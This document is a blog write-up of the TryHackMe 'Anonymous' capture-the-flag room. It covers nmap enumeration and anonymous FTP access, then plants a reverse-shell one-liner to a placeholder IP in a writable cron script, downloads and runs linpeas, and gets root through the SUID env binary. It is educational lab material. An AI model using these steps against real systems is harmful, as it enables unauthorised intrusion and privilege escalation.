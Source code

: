 ```yaml
---
layout: post
title: THM Anonymous Write-up
excerpt_separator: <!--more-->
---
```

<img src="/img/anon-img/0.header-image.png">
https://tryhackme.com/room/anonymous
<!--more-->
<p><b>Question 1. Enumerate the machine. How many ports are open?</b></p>
<p><b>Question 2. What service is running on port 21?</b></p>
<p><b>Question 3. What service is running on ports 139 and 445?</b></p>
<p>Let’s start off by  running a basic nmap scan for the top 1000 ports</p>
<p>We have ports 21,22,139 and 445 open. Let enumerate these further. </p>
<img src="/img/anon-img/1.basic_nmap_scan.png">
<p> Now let's check all 65k ports by using the -p- flag just to make sure there aren't anymore open ports. This will take a few minutes. While this is working let’s check out the FTP service on port 21.   
</p>
<img src="/img/anon-img/3.nmap_scan_all_ports.png">
<p>We’re able to login to the FTP service with anonymous:anonymous 
Let’s enumerate the file system.  </p>
<img src="/img/anon-img/4.Ftp_anon_login.png">
<p> There’s a dir named “scripts”  </p>
<img src="/img/anon-img/5.FTP_scrips_dir.png">
<p>There’s four files here. Let’s download these using the get command.  </p>
<img src="/img/anon-img/6.get_ftp_files.png">
<p>We’ll need to review these scripts, but first let’s check on our nmap scan.
Looks like these are the only open ports. Now you can answer question 1,2 and 3.  </p>
<img src="/img/anon-img/7.nmap_all_ports_scan_results..png">
<p><b>Questions 4. There's a share on the user's computer.  What's it called?</b></p>
<p>Let’s look at the to_do.txt file we download. Nothing helpful here.Let’s look at the other files. </p>
<img src="/img/anon-img/8.to_do.txt_output.png">
<p> Wow! There’s a bash script that’s probably running on a cron job, the only issue is we don’t know how often it runs. If we’re lucky it runs every few minutes. The good news is we have write  permissions, so It's definitely worth attempting  to gain a shell from it.  </p>
<img src="/img/anon-img/9.clean.sh_output.png">
<p>Let’s make a directory on our local machine name ftp and  mount the FTP  directory  using curlftpfs </p>
<img src="/img/anon-img/10.mkdir-ftp-and-mount.png">
<p>Cd into the FTP directory and open the clean.sh file in a text editor.  </p>
<img src="/img/anon-img/11.cd-gedit-file.png">
<img src="/img/anon-img/12.clean.sh-before-edit.png">
<p>Let’s add this bash shell command (bash -i >& /dev/tcp/your_ip_here/9001 0>&1) to the end of the script like below.  Don’t save  it yet we need to set up a listener to catch this shell on our local machine first.  </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>Set up a netcat listener on our local machine. </p>
<img src="/img/anon-img/14.setup-nc-listener.png">
<p>  Now save this file. </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>And we have a reverse shell. Let’s see if we can find the answer to question 4. </p>
<img src="/img/anon-img/15.rev-shell.png">
<p>Here we have the user.txt file and the directory of the FTP share we mounted. Let’s cat the user.txt  file, answer question 4 and 5. </p>
<img src="/img/anon-img/16.-user.txt.png">
<p>Now let’s start enumerating and try to gain a root shell. 
We can’t write to the passwd or shadow file, but it appears that we’re the only other useful user beside root so no lateral I don’t think we’ll need a lateral movement. Keep enumerating.  </p>
<img src="/img/anon-img/17.passwd-shadow-files.png">
<p>Nothing's standing out. Let’s try running linpeas. On your local host setup a python simple http server to host the linepeas  file.  </p>
<img src="/img/anon-img/18.pythong-simple-server.png">
<p>Back in your shell, if you're not already, navigate to your home folder and issue a wget command to download the linepease file. </p>
<img src="/img/anon-img/19.download-linpease.png">
<p>Make the file  executable  and run it like this ./linpease.sh </p>
<img src="/img/anon-img/20.linpease-running.png">
<p>This is interesting, let's check GTFObins. https://gtfobins.github.io/gtfobins/env/  </p>
<img src="/img/anon-img/21. linpease-env-binary.png">
<img src="/img/anon-img/22.GTFObins-on-the-env-binary.png">
<p> When we execute the env binary we can call /bin/sh but have to add -p to maintain permissions - in this case root and voila, we have root </p>
<img src="/img/anon-img/23.root-shell.png">
<p>Let's grab the root flag. </p>
<img src="/img/anon-img/24.root.txt.png">




